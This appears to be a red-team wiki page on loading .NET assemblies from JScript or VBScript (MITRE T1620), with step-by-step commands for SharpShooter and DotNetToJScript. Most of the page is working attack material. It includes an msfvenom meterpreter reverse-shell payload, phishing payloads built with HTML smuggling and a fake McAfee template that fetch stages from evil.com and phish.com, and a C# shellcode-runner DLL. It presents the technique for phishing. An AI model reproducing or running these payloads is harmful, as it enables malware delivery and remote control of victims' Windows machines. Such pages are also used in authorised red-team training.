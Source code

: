 ```yaml
---
description: MITRE ATT&CK™ Reflective Code Loading - Technique T1620
---
```


# .NET Assembly from Windows Script Hosting

## Theory

You can load and execute .NET (C#) assemblies directly into memory from a compiled binary using Jscript, VBScript, or VBA Mcros, by using the DotNetToJScript technique from James Forshaw.

{% hint style="success" %}
As double-clicking  `.js` or .`vbs` or other script files on Windows will by default execute them through the [Windows-Based Script Host](../code-execution/wsh.md),  this technique can efficiently be used for phishing and even phishing with [HTML Smuggling](../../delivery/phishing/html-smuggling.md).
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) (Python) can be used to creat payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's [DotNetToJavaScript](https://github.com/tyranid/DotNetToJScript) tool to invoke methods from the SharpShooter DotNet serialised object.

SharpShooter supports both staged and stageless payload execution.&#x20;

* **Stagless payload** will embed the whole .NET in the generated file.
* **Staged payloads** will attempt to retrieve a CSharp source code file that has been zipped and then base64 encoded using the chosen delivery technique (DNS or HTTP).  The CSharp source code will be downloaded and compiled on the host using the .NET CodeDom compiler. Reflection is then subsequently used to execute the desired method from the source code. A summary of how SharpShooter operates during staging is shown in the diagram below:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p><a href="https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/">https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/</a></p></figcaption></figure>

However for both types of payload, we should first generate a shellcode.&#x20;

```bash
# Generate a shellcode for stagless payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.121 LPORT=443 -f raw -o msf.raw

# Generate a shellcode for staged payloads
# The shellcode file should only contain the raw bytes, not the variable definition. For example byte[] buf = new byte[999] { 0x01, 0x02, 0x03 … would mean the shellcode file would contain just 0x01, 0x02, 0x03.
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp > /tmp/raw.cs; cat /tmp/raw.cs |sed 's/byte\[\] buf = new byte\[[0-9]\+\] {//g' |sed 's/};//g' > msf.raw
```

{% hint style="danger" %}
When generating HTA payloads, we should always use 32-bit shellcodes due to mshta.exe being a 32-bit binary.
{% endhint %}

#### Stagless Payloads

We can now generate stageless payloads as follows.

```bash
# --payload:    Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk
# --dotnetver:  Target .NET Version: 2 or 4
# --stageless:  Entire generated payload will be transferred at once (no HTML smuggling)

# Embedding a .NET assembly in JScript
sharpshooter --payload js --dotnetver 4 --stageless --rawscfile msf.raw --output evil

# Embedding a .NET assembly in VBScript
sharpshooter --payload vbs --dotnetver 4 --stageless --rawscfile msf.raw --output evil
```

#### Stagled Payloads

We can generate stageled payloads as follows.

```bash
# --payload:    Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk
# --dotnetver:  Target .NET Version: 2 or 4
# --com:        COM Staging Technique: outlook, shellbrowserwin, wmi, wscript, xslremote
# --delivery:   Delivery method for the stage: web, dns, both
# --web:        URI for web delivery
# --shellcode:  Use built in shellcode execution
# --template:   HTTP Template for the HTTP generated file (for delievry)
# --smuggle:    Smuggle payload into generated HTTP

# HTTP Smuggling Delivery + Staged Payload to retreive the .NET to execute (in JScript)
sharpshooter --payload js --dotnetver 2 --shellcode --scfile msf.raw --output evil --delivery web --web http://www.evil.com/evil.payload --smuggle --template mcafee
```

For previous example, SharpShooter will have created 3 separate files in the output directory, evil.html, evil.js and evil.payload.

* **evil.js:** JavaScript payload that the user will eventually execute. If you are using HTML smuggling, this file does not need to be sent to the user, it’s provided purely for information and debugging purposes.
* **evil.html:** is the HTML file that we will ultimately coerce the user in to opening by whatever means. This file contains the encrypted copy of evil.js which is decrypted using JavaScript then served to the user using the navigator.mssaveBlob technique.
* **evil.payload**: is the C Sharp source code that will be retrieved, compiled and executed on the target host. In this case, the file contains a harness that will execute the supplied shellcode. The source code file is zipped then base64 encoded. The file should be hosted at the URI `http://www.evil.com/evil.payload`&#x20;

Alternatively, we can retreive a custom .NET from our staged payload:

```bash
# Custom .NET inside VBS
sharpshooter --dotnetver 4 --payload vbs --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```
{% endtab %}

{% tab title="Windows" %}
[DotNetToJScript](https://github.com/tyranid/DotNetToJScript) is a tool created by James Forshaw that allows .NET (C#) assemblies to be executed within JavaScript or VBScript.

#### **Prepare the .NET Assembly**

First, you need to create or identify a **.NET assembly** (DLL or EXE) that contains the code you want to run. This assembly could perform any function, such as spawning a reverse shell, executing arbitrary code, or interacting with system resources.

In the example below, we create and compile our own C# code that can execute a supplied shellcode.

{% code title="evil.cs" %}
```csharp
// Compile this code as a DLL for x64 arch using Visual Studio 
using System;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class EvilLoader
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public EvilLoader()
    {
        //msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
        byte[] buf = new byte[276] {0xfc,0x48,0x83,0xe4,0xf0,0xe8......};

        int size = buf.Length;
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, size);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
    
    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```
{% endcode %}

#### **Execute DotNetToJScript**

DotNetToJScript takes your compiled .NET assembly as input. The tool will embed this assembly into the output JScript or VBScript code.

{% hint style="info" %}
When using custom .NET assembly like in our example (i.e not the "ExampleAssembmy" provided code) we should specify the assembly class name and entry function.
{% endhint %}

```powershell
# -c:      Entry class name
# --lang:  Language to use (JScript, VBA, VBScript)
# --ver:   .NET version to use (None, v2, v4, Auto)

# Embedding a .NET assembly in JScript
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=Jscript --ver=v4 -o evil.js

# Embedding a .NET assembly in VBScript
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=VBScript --ver=v4 -o evil.js

# Embedding a .NET assembly in VBA
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=VBA --ver=v4 -o evil.js
```

#### **Execute the Payload**

Generated JScript or VBScript payload can be executed by double-clicking it or using [Windows Script Host](../code-execution/wsh.md). Such


{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/" %}

{% embed url="https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-to-jscript" %}

{% embed url="https://www.ired.team/offensive-security/defense-evasion/executing-csharp-assemblies-from-jscript-and-wscript-with-dotnettojscript" %}

